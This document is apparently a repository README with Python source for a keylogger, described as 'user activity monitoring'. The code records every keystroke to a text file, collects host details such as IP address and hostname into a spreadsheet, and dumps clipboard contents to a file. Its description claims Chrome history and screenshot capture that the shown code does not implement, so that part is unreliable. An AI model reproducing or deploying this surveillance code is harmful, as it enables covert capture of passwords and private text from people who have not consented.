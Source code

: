 # keylogger
Tracks keystrokes (pynput.keyboard), recording in a text file for user activity monitoring. Gathers system info (socket, platform, pandas), storing in Excel for a comprehensive overview. Captures clipboard (win32clipboard) to retain important snippets in a text file. Retrieves Chrome history (datetime, sqlite3, pandas), also capturing png SC.



// source code

from pynput.keyboard import Key, Listener #recording keystrokes
import sqlite3 #get the data from a database
import datetime #get the date
import socket #get computer information
import platform #get computer information
from requests import get #get information from a website
import win32clipboard #get clipboard information
from PIL import ImageGrab #get screenshot
import pandas as pd #manipulate with the aquired data


#records keystrokes and store it in text file
k = []

#function to record the keystroke
def on_press(key):
    k.append(key)
    write_file(k)
    print(key)

#function to write the data to a text file
def write_file(var):
    with open("logs.txt","a") as f:
        for i in var:
            new_var = str(i).replace("'","")
        f.write(new_var)
        f.write(" ")

#function to stop the recording       
def on_release(key):
    if key == Key.esc:
        return False

#listener function
with Listener(on_press = on_press, on_release = on_release) as listener:
    listener.join() 


#gets the computer information and store it in text file

date = datetime.date.today() #get the data

ip_address = socket.gethostbyname(socket.gethostname()) #get the IP address

processor = platform.processor() #get the processor details

system = platform.system() #get the system details
release = platform.release()

host_name = socket.gethostname() #get the host name

# Create a DataFrame with computer information
data = {
    'Metric': ['Date','IP Address', 'Processor', 'System', 'Release', 'Host Name'],
    'Value': [date,ip_address, processor, system, release, host_name]
}
df = pd.DataFrame(data)

# Save the DataFrame to an Excel file
df.to_excel('keystrokes.xlsx', index=False)

#get the clipboard information and store it in text file

def copy_clipboard():
    current_date = datetime.datetime.now()
    with open("clipboard.txt", "a") as f:
        
            win32clipboard.OpenClipboard()
            pasted_data = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard() #get the clipboard data and store it in pasted_data

            f.write("\n")
            f.write("date and time:"+ str(current_date)+"\n")
            f.write("clipboard data: \n "+ pasted_data) #write the clipboard data into the text file
        
copy_clipboard()
